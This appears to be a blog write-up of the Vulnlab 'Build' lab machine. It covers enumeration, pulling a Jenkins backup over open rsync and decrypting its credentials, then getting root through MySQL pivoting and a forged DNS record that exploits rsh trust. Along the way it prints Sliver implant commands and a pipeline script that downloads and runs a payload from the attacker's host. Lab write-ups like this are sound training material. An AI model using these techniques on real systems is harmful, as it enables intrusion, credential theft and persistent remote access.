






+++
title = 'Vulnlab :: Build Writeup'
date = 2025-01-04T19:54:32+01:00
draft = false

categories = ["vulnlab", "ctf", "misconfigurations"]

tags = ["jenkins", "gitea", "exegol", "sliver", "proxychains", "nmap", "linux", "ctf", "hashcat", "socks5", "misconfigurations", "rsync", "Mariadb", "powerdns"]
+++


## Enumeration

### Nmap scan

I start with a standard scan using nmap

```
exegol-VulnLab /workspace # nmap -sCV --min-rate 5000 -p- 10.10.104.46
Starting Nmap 7.93 ( https://nmap.org ) at 2024-12-31 19:53 CET
Nmap scan report for 10.10.104.46
Host is up (0.033s latency).
Not shown: 65526 closed tcp ports (reset)
PORT     STATE    SERVICE         VERSION
22/tcp   open     ssh             OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 472173e26b96cdf91311af40c84dd67f (ECDSA)
|_  256 2b5ebaf372d3b309df25412909f47bf5 (ED25519)
53/tcp   open     domain          PowerDNS
| dns-nsid:
|   NSID: pdns (70646e73)
|_  id.server: pdns
512/tcp  open     exec            netkit-rsh rexecd
513/tcp  open     login?
514/tcp  open     shell           Netkit rshd
873/tcp  open     rsync           (protocol version 31)
3000/tcp open     ppp?
| fingerprint-strings:
|   GenericLines, Help, RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=d2c9c1889c1be19e; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=wDA7qaMkEld7Qac9d679W84mZGc6MTczNTY3MTE5ODcxNDk2MjUwOQ; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Tue, 31 Dec 2024 18:53:18 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="
|   HTTPOptions:
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=3f4d6c58c593d79c; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=ctOOokawoDQpWUCFgg2IYwPMi4s6MTczNTY3MTIwMzkwNTcxMjYzNw; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Tue, 31 Dec 2024 18:53:23 GMT
|_    Content-Length: 0
3306/tcp filtered mysql
8081/tcp filtered blackice-icecap
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.93%I=7%D=12/31%Time=67743D9F%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(GetRequest,2990,"HTTP/1\.0\x20200\x20OK\r\nCache-Control
SF::\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nCont
SF:ent-Type:\x20text/html;\x20charset=utf-8\r\nSet-Cookie:\x20i_like_gitea
SF:=d2c9c1889c1be19e;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cooki
SF:e:\x20_csrf=wDA7qaMkEld7Qac9d679W84mZGc6MTczNTY3MTE5ODcxNDk2MjUwOQ;\x20
SF:Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Optio
SF:ns:\x20SAMEORIGIN\r\nDate:\x20Tue,\x2031\x20Dec\x202024\x2018:53:18\x20
SF:GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-US\"\x20class=\"theme
SF:-auto\">\n<head>\n\t<meta\x20name=\"viewport\"\x20content=\"width=devic
SF:e-width,\x20initial-scale=1\">\n\t<title>Gitea:\x20Git\x20with\x20a\x20
SF:cup\x20of\x20tea</title>\n\t<link\x20rel=\"manifest\"\x20href=\"data:ap
SF:plication/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlY
SF:SIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRf
SF:dXJsIjoiaHR0cDovL2J1aWxkLnZsOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9
SF:idWlsZC52bDozMDAwL2Fzc2V0cy9pbWcvbG9nby5wbmciLCJ0eXBlIjoiaW1hZ2UvcG5nIi
SF:wic2l6ZXMiOiI1MTJ")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request")%r(HTTPOptions,197,"HTTP/1\.0\x20405\x20Meth
SF:od\x20Not\x20Allowed\r\nAllow:\x20HEAD\r\nAllow:\x20GET\r\nCache-Contro
SF:l:\x20max-age=0,\x20private,\x20must-revalidate,\x20no-transform\r\nSet
SF:-Cookie:\x20i_like_gitea=3f4d6c58c593d79c;\x20Path=/;\x20HttpOnly;\x20S
SF:ameSite=Lax\r\nSet-Cookie:\x20_csrf=ctOOokawoDQpWUCFgg2IYwPMi4s6MTczNTY
SF:3MTIwMzkwNTcxMjYzNw;\x20Path=/;\x20Max-Age=86400;\x20HttpOnly;\x20SameS
SF:ite=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Tue,\x2031\x20Dec
SF:\x202024\x2018:53:23\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReq
SF:uest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pl
SF:ain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Requ
```

## HTTP - 3000

On port 3000, there is Gitea, which contains 1 public repository

### Gitea





In the public repository, there is a jenkins pipeline

## Rsync

```sh
rsync -av --list-only rsync://10.10.104.46
```

```sh
rsync -av --list-only rsync://10.10.104.46/backups/
```


The machine also has an exposed rsync, which contains a jenkins backup

```sh
rsync -av rsync://10.10.104.46/backups ./sdf
```

## Backup

### jenkins-credentials-decryptor

[](https://github.com/hoto/jenkins-credentials-decryptor)

https://github.com/hoto/jenkins-credentials-decryptor

Having access to the Jenkins backup using the `jenkins-credentials-decryptor tool`, I was able to decrypt the password for the user `buildadm`

```sh
nix profile install github:hoto/jenkins-credentials-decryptor
```

```sh
jenkins-credentials-decryptor \
       -m ./secrets/master.key \
       -s ./secrets/hudson.util.Secret \
       -c ./jobs/build/config.xml \
       -o json
```


I can currently log in to Gitea

## Shell access

Next, I decided to upload the sliver implant to the machine through the pipeline

### Sliver

```
sliver > generate --mtls 10.8.4.230:8888 --os Linux --arch 64
```

```
sliver > mtls --lport 8888
```

### Implant Upload

`sh.sh`

```sh
#!/bin/env bash

curl http://10.8.4.230/LAZY_POLO -o /tmp/LAZY_POLO && \
    chmod +x /tmp/LAZY_POLO && \
    /tmp/LAZY_POLO
```

`http server`

```sh
python3 -m http.server
```



```
sliver > use fff759cb-5de0-49bd-990b-aec6b0a1db35
```

```
sliver (LAZY_POLO) > shell
```

I managed to gain access to the shell and get the contents of the first flag


Everything indicates that we are inside the container :/

## MySQL server

```
3306/tcp filtered mysql
```
Using a proxy, we are able to log in to the MySQL server as root

### Sliver socks5

```
sliver (LAZY_POLO) > socks5 start
```
> remember to properly configure proxychains!

```sh
proxychains4 mysql -u root -h 172.18.0.1 --skip-ssl
```


### PowerDNS

From the PowerDNS database, we can obtain the administrator password using hashcat


### hashcat

```sh
hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

## Privilege escalation

### PowerDNS

```
select * from history;
```


In the database, in the `history` table, I found several IP addresses, and under one of them is the PowerDNS admin panel

`172.18.0.6`







### rsh

```
rsh 10.10.104.46
```

After setting my own IP address for the `intern` record in the DNS zone and using the `rsh` client, I gain access as `root`
